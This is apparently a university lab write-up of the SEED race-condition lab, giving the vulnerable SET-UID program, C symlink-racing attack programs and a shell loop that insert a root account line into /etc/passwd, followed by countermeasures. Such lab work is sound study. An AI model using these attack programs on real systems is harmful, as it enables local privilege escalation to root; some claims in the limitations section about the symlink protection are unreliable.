


# Race-Condition Vulnerability Lab

[https://seedsecuritylabs.org/Labs_20.04/Software/Race_Condition/](https://seedsecuritylabs.org/Labs_20.04/Software/Race_Condition/)

## Work

Part of the **SSI Course Unit** at [FEUP](https://sigarra.up.pt/feup/en/WEB_PAGE.INICIAL).

**Team** (Group 3):

- João Pedro Rodrigues da Silva [[up201906478]](mailto:up201906478@edu.fe.up.pt);
- António Bernardo Linhares Oliveira [[up202204184]](mailto:up202204184@edu.fe.up.pt);
- Fernando Adriano Ramalho Rocha [[up202200589]](mailto:up202200589@edu.fe.up.pt).

The group has followed the instructions on the lab page, and has documented the process as well as the answers to the questions indicated in the lab tasks.

## Task 1: Choosing Our Target

By editing the `etc/passwd` file with a superuser, we can add a new user with a set name, UID and password by creating a new line.

`test:U6aMy0wojraho:0:0:test:/root:/bin/bash`

This makes a user with ID 0 and a magic password which is a string that we know will allow us to login with no password. We can login using `su test` and pressing Enter. We confirm that this user has root privileges.

## Task 2: Launching the Race Condition Attack

The objective for this task is to gain root privilege by exploiting the race condition vulnerability in this **SET-UID program**:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        fp = fopen(fn, "a+");
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}

```

The critical factor in making this attack work is to point */tmp/XYZ* to the password file between the *access* and the *fopen* calls.

### Task 2.A: Simulating a Slow Machine

- In this first attempt we will exploit the race condition vulnerability by simulating a slow machine. We can do that by using `sleep`:

vul.c will look like this:

```c
if (!access(fn, W_OK)) {
    sleep(10);
    fp = fopen(fn, "a+");
...
```

This will give us a 10 second window to manually do something that results on the program adding a root account to the system.

To achieve this we will create a */tmp/XYZ* file, run the program with the input that we need and link the file created to the password file:


After this we successfully obtained root privilege:



### Task 2.B: The Real Attack

In this task the objective is to launch the real attack without "cheating", in this case without slowing down the vulnerable program.

To achieve this we need to write an attack program to run in parallel to the target program and hope to hit the race condition window once.

Our C attack program that removes and adds a symbolic link pointing to the */etc/passwd* file from the */tmp/XYZ* file looks like this:

```c
#include <unistd.h>
int main() {
    /*
        Run Infinite loop to try to catch the race condition 
        window
    */
    while(1) {
        unlink("/tmp/XYZ");
        symlink("/etc/passwd","/tmp/XYZ");
    }


    return 0;
}
```

To make this a successful attack we need to run the vulnerable program many times.

So according to the lab guide we may run the following shell script to run *vulp* in a loop, with the input that we want, in this case *test:U6aMy0wojraho:0:0:test:/root:/bin/bash* given by the *echo* command.

```bash
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

We can now run both programs and monitor our results from the attack and see if it is successful.

After some attempts at executing we finally reached the objective and achieved root privilege:



It took some time to reach our goal since we had to manually remove */tmp/XYZ* file all the previous attempts because it gained root ownership and we couldn't execute the attack successfully that way.

### Task 2.C: An Improved Attack Method

In the previous task most of our attempts didn't work because our attack program, running with no root privilege could not make changes to the root owned */tmp/XYZ* file.

Using *unlink()* and *symlink()* approach gave us a race condition in our attack program which was exploited by the target program.

We can solve this issue by making *unlink()* and *symlink()* atomic.

According to the lab guide now our attack program should look like this:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
int main() {
    unsigned int flags = RENAME_EXCHANGE;
    unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
    unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
    while(1) {
        renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
    }
    return 0;
}
```

After performing this time the attack with this new strategy, we can see that it succeeds without problems:


## Task 3: Countermeasures

### Task 3.A: Applying the Principle of Least Privilege

We modified the `vulp.c` program to use `seteuid` to temporarily disable the user's root privilege, then reset the user's ID in the end of the program.

```c
int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;
    uid_t real_uid = getuid();
    uid_t eff_uid = geteuid();

    /* get user input */
    scanf("%50s", buffer);

    /* set uid to Real User ID, not Owner Process ID */
    seteuid(real_uid);

    fp = fopen(fn, "a+");
    if (!fp) {
        perror("Open failed");
        exit(1);
    }
    fwrite("\n", sizeof(char), 1, fp);
    fwrite(buffer, sizeof(char), strlen(buffer), fp);
    fclose(fp);

    /* set uid to Effective User ID */
    seteuid(eff_uid);

    return 0;
}
```

Now the attack did not work (trying to modify the */etc/passwd* file using symlink) due to the program not having root privileges during file access (`Permission denied`).

### Task 3.B: Using Ubuntu’s Built-in Scheme

After re-enabling the protection on Ubuntu 20.04 with `sudo sysctl -w fs.protected_symlinks=1`, we verify that the attack no longer works.

#### 1. How does this protection scheme work?

This protection makes it so symlinks can only be followed when:

- the uid of the symlink and follower match
- the symlink is outside of a sticky **(*)** world-writable directory
- the directory owner matches the symlink’s owner

**(*)**: A directory whose "sticky bit" is set becomes a directory in which the deletion of files is restricted. Only the owner of the file or an user who has write permission on the directory can delete a file in a sticky directory.

In our case, the /tmp directory (sticky) owner is root, which differs from the symlink creator (the attacker - a regular user).

#### 2. What are the limitations of this scheme?

There are some limitations to this scheme:

- **Limited to certain privileged processes**: Symlink restrictions are only enforced for a limited number of privileged processes, such as sudo and setuid programs. Other processes, including non-privileged processes, are not subject to symlink restrictions and can still be vulnerable to symlink attacks.
- **Limited to certain file systems**: Symlink restrictions are only enforced on file systems that support the feature, such as ext4 and XFS. Other file systems, such as FAT32 and NTFS, do not support symlink restrictions, which means that symlink attacks are still possible on these file systems.
- **Cannot prevent all symlink attacks**: While symlink restrictions can help prevent some types of symlink attacks, they cannot prevent all of them. For example, if a process is already running with elevated privileges, it may be able to bypass symlink restrictions and follow a symbolic link to a sensitive file or directory.
- **Potential for false positives**: In some cases, symlink restrictions may mistakenly prevent legitimate processes from accessing files or directories that they should be allowed to access. This can result in errors or unexpected behavior, which can be frustrating for users.

Overall, the restrictions should not be relied upon as the sole defense against symlink attacks. Other security measures, such as proper file permissions and user education, should also be implemented to ensure the security of sensitive files and directories.
